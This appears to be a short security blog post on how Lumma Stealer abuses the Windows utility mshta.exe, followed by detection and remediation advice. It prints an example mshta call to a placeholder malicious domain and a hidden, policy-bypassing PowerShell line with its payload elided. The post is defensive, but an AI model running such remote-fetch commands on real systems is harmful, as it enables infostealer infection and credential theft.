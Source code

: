 ```yaml
---
author: "Wren Howell"
title: "Lumma's Living off the Land by MSHTA"
date: 2025-04-14
description: "Living off the Land Using MSHTA"
tags: ["Living off the Land , Windows"]
thumbnail: https://frsecure.com/wp-content/uploads/2021/08/Living-Off-the-Land-Attacks.jpg
---
```


As EDR and endpoint detections evolve, so do the tactics of threat actors. Rather than relying on attacker tools that are easily flagged by security systems, adversaries are increasingly leveraging living-off-the-land techniques—abusing legitimate tools and processes already present in the environment to execute malicious activity.

One example is Lumma Stealer, a type of information stealer often associated with Russian threat actors. Lumma Stealer is known for its simplicity and effectiveness, utilizing built-in Windows binaries like mshta.exe to evade detection. 

**What is mshta.exe?** 

Mshta.exe is a native Windows utility designed to execute Microsoft HTML Applications (HTA). HTAs are essentially HTML files combined with scripting languages such as VBScript or JavaScript, and they execute with the same privileges as the user. Threat actors like Lumma Stealers commonly exploit mshta.exe by passing malicious arguments that spawn PowerShell commands. For example, Lumma Stealer might use a command like:

```bash
mshta.exe https://malicious_domain
```

This would be followed by an obfuscated PowerShell script designed to retrieve additional payloads or commands from the attacker's controlled infrastructure.
```bash
powershell.exe -w -h -ep Unrestricted -nop function [a bunch of hex]
```

**Detection**

A potential detection opportunity would be to check when mshta.exe spawns a child process such as PowerShell or cmd.exe, especially when the PowerShell command line is unusually long or obfuscated. This is a good indicator of potentially malicious behavior.　

**Remediation**

Since Lumma Stealer is a type info stealer, remediation steps include:
- Resetting credentials for the affected user(s)
- Blocking the malicious domain(s) used in the attack
- Deleting the phishing email 
- Blocking url responsible for the initial infection and blocking any url that is related fownloading additional payloads

For a more comprehensive defense, consider implementing Windows Defender Application Control (WDAC) policies to block all HTA file execution. This mitigates an entire class of attacks that abuse mshta.exe.

Resources 

- https://blackpointcyber.com/blog/the-rise-of-fake-captcha-attacks/

- https://www.netskope.com/blog/lumma-stealer-fake-captchas-new-techniques-to-evade-detection

- https://www.cybereason.com/blog/threat-analysis-rise-of-lummastealer

{{< css.inline >}}

<style>
.emojify {
	font-family: Apple Color Emoji, Segoe UI Emoji, NotoColorEmoji, Segoe UI Symbol, Android Emoji, EmojiSymbols;
	font-size: 2rem;
	vertical-align: middle;
}
@media screen and (max-width:650px) {
  .nowrap {
    display: block;
    margin: 25px 0;
  }
}
</style>

{{< /css.inline >}}
